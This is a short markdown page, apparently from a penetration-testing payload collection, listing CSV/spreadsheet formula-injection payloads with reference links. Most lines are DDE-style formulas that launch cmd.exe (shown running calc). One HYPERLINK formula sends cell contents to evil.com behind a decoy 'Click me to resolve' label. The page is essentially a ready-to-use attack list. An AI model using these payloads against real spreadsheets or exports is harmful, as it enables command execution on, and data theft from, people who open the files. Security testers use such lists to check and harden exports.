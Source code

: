 # CSV Injection

### Payloads

```
-1+1+cmd|' /C calc'!A0
-2+3+cmd|' /C calc'!A0
+2+3+cmd|' /C calc'!A0
@2+3+cmd|' /C calc'!A0

# no warning to user
=HYPERLINK("http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.")

# untested
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=DDE("cmd";"/C calc";"!A0")
```

### References

* [DDE Function](https://wiki.openoffice.org/wiki/Documentation/How_Tos/Calc:_DDE_function)
* [Weaponizing](https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within/)
